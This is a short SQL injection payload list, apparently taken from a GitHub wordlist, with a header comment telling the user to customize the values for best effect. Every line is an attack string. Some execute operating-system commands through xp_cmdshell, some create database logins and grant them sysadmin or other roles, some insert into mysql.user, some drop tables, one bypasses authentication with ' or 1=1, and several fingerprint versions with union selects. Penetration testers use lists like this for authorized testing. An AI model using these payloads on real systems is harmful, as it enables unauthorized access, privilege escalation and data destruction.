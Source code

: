     # you will need to customize/modify some of the vaules in the queries for best effect
    '; exec master..xp_cmdshell 'ping 10.10.1.2'--
    'create user name identified by 'pass123' --
    'create user name identified by pass123 temporary tablespace temp default tablespace users; 
    ' ; drop table temp --
    'exec sp_addlogin 'name' , 'password' --
    ' exec sp_addsrvrolemember 'name' , 'sysadmin' --
    ' insert into mysql.user (user, host, password) values ('name', 'localhost', password('pass123')) --
    ' grant connect to name; grant resource to name; --
    ' insert into users(login, password, level) values( char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72) + char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72),char(0x64)
    ' or 1=1 --
    ' union (select @@version) --
    ' union (select NULL, (select @@version)) --
    ' union (select NULL, NULL, (select @@version)) --
    ' union (select NULL, NULL, NULL,  (select @@version)) --
    ' union (select NULL, NULL, NULL, NULL,  (select @@version)) --
    ' union (select NULL, NULL, NULL, NULL,  NULL, (select @@version)) --
